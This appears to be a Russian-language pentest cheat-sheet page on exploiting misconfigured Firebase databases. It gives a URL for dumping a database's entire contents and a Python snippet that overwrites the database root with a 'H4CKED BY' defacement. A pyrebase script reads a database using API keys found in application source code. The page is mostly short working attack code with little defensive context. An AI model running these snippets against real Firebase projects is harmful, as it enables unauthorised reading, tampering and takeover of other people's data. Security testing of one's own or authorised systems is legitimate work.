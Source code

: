 # Firebase

## Если кратко

Пробуем

```
https://<databasename>.firebaseio.com/.json
```

## Другой пример

```python
import requests
data= {"Exploit":"Successfull", "H4CKED BY": "zfr"}
reponse = requests.put("https://my-proj.firebaseio.com/.json", json=data)
```

Если потом через Get сможем запросить — уязвимо: [https://hackerone.com/reports/1065134](https://hackerone.com/reports/1065134)

## Firebase Database Takeover

Пример пентеста с плохо сконфигурированной базой - [https://medium.com/@danangtriatmaja/firebase-database-takover-b7929bbb62e1](https://medium.com/@danangtriatmaja/firebase-database-takover-b7929bbb62e1)

## Пример поиска и эксплуатации ключей Firebase

1 Ищем по коду подобные константы:\


![](<../../../.gitbook/assets/изображение (5).png>)

Пример работы с firebase базой с помощью `pip install pyrebase`

```
import pyrebase

config = {
  "apiKey": "FIREBASE_API_KEY",
  "authDomain": "FIREBASE_AUTH_DOMAIN_ID.firebaseapp.com",
  "databaseURL": "https://FIREBASE_AUTH_DOMAIN_ID.firebaseio.com",
  "storageBucket": "FIREBASE_AUTH_DOMAIN_ID.appspot.com",
}

firebase = pyrebase.initialize_app(config)

db = firebase.database()

print(db.get())

```

Этот код отработает, если выставлены permissions на чтение для apiKey

В документации pyrebase можно найти другие примеры по работе с Firebase.
